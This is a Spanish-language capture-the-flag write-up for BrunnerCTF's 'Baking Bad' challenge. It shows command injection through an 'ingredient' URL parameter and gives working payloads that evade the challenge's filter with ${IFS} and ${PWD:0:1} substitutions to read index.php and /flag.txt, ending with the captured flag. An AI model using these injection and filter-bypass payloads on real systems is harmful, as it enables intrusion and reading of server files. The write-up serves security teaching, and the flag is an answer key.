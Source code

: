 # Baking Bad
![](images/BakingBad.jpeg)

## URL
https://brunnerctf.dk/challenges#Baking%20Bad-47

## Requerimientos
El script requiere la librería requests.

La instalación de requerimientos se realiza con el siguiente comando:<br>
```pip install -r requirements.txt```
## Writeup
El desafío presenta una aplicación web llamada “Baking Bad purity tester” que consiste en un simulador para probar ingredientes que resulten en una receta con mayor pureza, para esto se mostraba el siguiente input que recibía un parámetro ingredient en la URL.
<br>


![](images/BakingBad1.jpeg)


Ingresando un ingrediente como chocolate, podemos observar lo siguiente:


![](images/BakingBad2.jpeg) <br>
![](images/BakingBad3.jpeg) <br>


Como se puede observar el input de ingrediente presenta una vulnerabilidad del tipo Command Injection. <br>
Probando el parámetro vulnerable con un comando simple, notamos que los comandos enviados en el ingredient se ejecutaban en el servidor. <br>
Ejemplo:
```https://baking-bad-482443ddb3d4c3dc.challs.brunnerne.xyz/?ingredient=%3Bls```<br>
Lo que nos genero la siguiente salida:


![](images/BakingBad4.jpeg)


Intentando mostrar los archivos indicados nos dimos cuenta que se bloquean ciertos comandos y caracteres como cat, espacios o /.
Con el siguiente comando logramos abrir el archivo index.php de la página web, lo que mostró lo siguiente: <br>
```;awk${IFS}1${IFS}index.php```<br>
```https://baking-bad-482443ddb3d4c3dc.challs.brunnerne.xyz/?ingredient=%3Bawk%24%7BIFS%7D1%24%7BIFS%7Dindex.php```<br>
Usando {IFS} que se traduce al espacio en blanco (Internal Field Separator).<br>


![](images/BakingBad5.jpeg)

![](images/BakingBad6.jpeg)

![](images/BakingBad7.jpeg)


Como se puede observar vemos que hay una lista de comandos y caracteres denegados, y además podemos ver que la flag se encuentra en el directorio /flag.txt. <br>
Luego de varios intentos, encontramos que usando sustituciones de Bash se podía evadir los filtros. <br>
El payload final fue: <br>
```;more${IFS}${PWD:0:1}flag.txt``` <br> 
```https://baking-bad-482443ddb3d4c3dc.challs.brunnerne.xyz/?ingredient=%3Bmore%24%7BIFS%7D%24%7BPWD%3A0%3A1%7Dflag.txt``` <br>
Siendo more una alternativa a cat y usando ${PWD:0:1} que devuelve /, para poder acceder a /flag.txt. <br> 
Al ejecutar ese payload, obtuvimos la flag: <br>


![](images/BakingBad8.jpeg)


La ejecucion del script automatico se realiza con el siguiente comando: <br> 
```python3 script.py```

## Flag
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
